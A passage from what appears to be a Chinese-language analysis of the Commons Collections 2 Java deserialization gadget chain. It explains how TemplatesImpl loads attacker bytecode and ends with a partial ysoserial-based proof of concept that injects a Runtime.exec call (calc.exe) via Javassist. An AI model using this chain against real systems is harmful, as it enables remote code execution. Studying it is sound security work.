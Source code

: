 在这里可以看到0x3中说`_name`可以为任意值，但不能为null，以及`_class`要为null，因为只有当`_class`为null，才能执行`defineTransletClasses()`函数![图片.png](https://cdn.nlark.com/yuque/0/2022/png/21929389/1652081732138-12a14b9e-31de-4ec7-b656-8bcbcd949e9c.png#clientId=u2044ba9c-3055-4&from=paste&height=1040&id=u47cea69b&originHeight=1040&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=201107&status=done&style=none&taskId=u1f601e89-5433-458c-9e53-3cbd9e1a86d&title=&width=1920)进入`defineTransletClasses`函数，可以看到这个注释，大概意思就是会返回对自定义的类![图片.png](./Commons Collection2 分析.assets/2023_05_19_10_37_20_sKSidtZV.png)
`loader.defineClass(_bytecodes[i]);` 将字节数组还原为Class对象  ,`_class[0]`就是恶意类
这里对比父类是否是`AbstractTranslet`,这里就解释了0x2中为什么一定要继承`AbstractTranslet`![图片.png](https://cdn.nlark.com/yuque/0/2022/png/21929389/1652082143879-39850134-ba3f-452f-8c61-cf922ebad974.png#clientId=u2044ba9c-3055-4&from=paste&height=1040&id=ud6aeed6a&originHeight=1040&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=226366&status=done&style=none&taskId=uf58db8f4-bd39-4362-a990-c488fc90c71&title=&width=1920)如果`_transletIndex`没有被赋值（初始值为-1）,那么在下面的if语块中就会抛出异常![图片.png](https://cdn.nlark.com/yuque/0/2022/png/21929389/1652082286939-0a17fea0-b100-49f5-88f9-537705637d53.png#clientId=u2044ba9c-3055-4&from=paste&height=1040&id=u66837fde&originHeight=1040&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=197424&status=done&style=none&taskId=uf1652a5d-e632-4357-b802-c81ca450865&title=&width=1920)在这里实例化`_class[_transletIndex].newInstance()`，也就是我们使用Javassit生成的恶意代码（执行`Runtime.getRuntime.exec()`）![图片.png](https://cdn.nlark.com/yuque/0/2022/png/21929389/1652082448450-ba9f70fc-3818-4161-9dc4-0b2ae1a89f74.png#clientId=u2044ba9c-3055-4&from=paste&height=1040&id=ud0de97d6&originHeight=1040&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=228222&status=done&style=none&taskId=uec9904d2-999f-40a6-bad4-d76e17f70d2&title=&width=1920)![图片.png](./Commons Collection2 分析.assets/2023_05_19_10_37_20_3TMX4KAY.png)
## 总结
构造CC2要比CC1更复杂，其中CC2使用TemplatesImpl需要注意

- comparator不需要再构造transformerChain，而是需要调用TemplayesImpl的newTransformer方法
- 恶意类需要继承AbstractTranslet类
- 对应的参数一定要构造正常

链路为TemplatesImpl.newTransformer -> getTransletInstance() -> defineTransletClasses -> 得到字节数组还原为的Class对象 -> 实例化
最后添加根据`ysoserial CC2` 的payload，改了一个可用的poc
```java
package com.myproject;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.CannotCompileException;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class yso2CC2 {
    public static void main(String[] args) throws Exception {
        InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformer));
        queue.add(1);
        queue.add(2);
        setFieldValue(transformer,"iMethodName","newTransformer");
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        cc.makeClassInitializer().insertBefore(cmd);
```